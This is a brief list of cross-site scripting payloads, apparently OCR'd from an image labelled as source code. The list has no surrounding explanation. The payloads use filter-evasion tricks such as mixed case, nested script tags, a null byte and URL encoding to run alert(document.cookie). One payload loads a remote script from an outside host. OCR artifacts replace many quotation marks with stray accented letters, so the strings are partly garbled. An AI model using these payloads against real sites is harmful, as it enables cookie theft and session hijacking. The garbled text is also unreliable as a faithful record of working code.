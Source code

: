 
ì><sî%2bonmouseover=alert()'alert(document.cookie)</script>
ì><ScRiPt>alert(document.cookie)</script>
ì><<script>alert(document.cookie);//<</script>
foo%00<script>alert(document.cookie)</script>
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
%22/%3E%3CBODY%20onload=ídocument.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)í%3E
ë; alert(document.cookie); var foo=í
foo\í; alert(document.cookie);//í;
